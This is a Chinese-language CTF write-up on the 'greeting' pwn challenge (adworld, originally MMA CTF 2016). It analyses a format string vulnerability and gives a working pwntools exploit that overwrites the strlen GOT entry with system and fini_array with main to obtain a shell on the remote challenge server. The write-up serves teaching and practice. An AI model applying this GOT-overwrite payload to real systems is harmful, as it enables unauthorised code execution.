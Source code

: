 ```yaml
---
title: '[pwn] greeting WriteUp'
tags:
  - CTF
  - WriteUp
  - pwn
  - adworld
date: 2019-10-07 15:32:00
categories: CTF

abbrlink: 10071
---
```


这个题来自 [攻防世界](https://adworld.xctf.org.cn/) 的进阶区

ps: 其实是来自于 mma CTF 2016 ，只是我个人是在攻防世界做到的，入门尚浅

## 分析

checksec 一下

![checksec](/blog/pics/20191007003.png)

是 32 位的程序，再 IDA 静态分析

![main](/blog/pics/20191007004.png)

可以看到，存在格式化字符串漏洞，再看看读取字符串的函数 `getnline`

![getnline](/blog/pics/20191007005.png)

找到输入的字符串中第一个 '\n' 并且讲其修改为 '\0' 之后，调用 `strlen`

又发现居然存在 `system` 函数，并且程序没有开启 RELRO 保护，可以修改 GOT 表

于是考虑把 GOT 表中 `strlen` 指向 `system` 函数，然后再想办法传入字符串 `"/bin/sh"`

因为 Linux 的程序的执行流程，是把 `main` 函数作为参数传给 `__libc_start_main` 的，并且在执行完 main 后其实还有其他工作，具体的可以参见下面这张图片

![cool](/blog/pics/20191007006.png)

在执行完 `main` 后还会调用 `finiarray` 和 `destructor` 等函数，所以考虑修改 GOT 表中 `finiarray` 项指回 `main` 函数，这样在第一次输入完字符串之后还会再调用一次 `main` 函数，就可以输入两次，第一次修改 GOT 表，第二次就传入字符串 `"/bin/sh"` 拿到 shell

## exp

```python
from pwn import *

r = remote("111.198.29.45", 43938)

strlen_got = 0x08049a54
fini_got = 0x08049934

# len("Nice to meet you, ") = 18
payload = b"aa" + p32(fini_got+2) + p32(strlen_got+2) # 18 + 10 = 28
payload += p32(strlen_got) + p32(fini_got)            # 28 + 8 = 36
payload += b"%2016c"  # 36 + 2016 = 2052  ==> 0x0804
payload += b"%12$hn"
payload += b"%13$hn"
payload += b"%31884c" # 2052 + 31884 = 33936 ==> 0x8490  ==> 0x08048490 ==> system_plt
payload += b"%14$hn"
payload += b"%349c"   # 33936 + 349 = 34285 ==> 0x85ed  ==> 0x080485ed ==> main_addr
payload += b"%15$hn"

# print(payload)

r.sendlineafter("name... ", payload)

# r.sendlineafter("name... ", b"/bin/sh")
r.interactive()

```

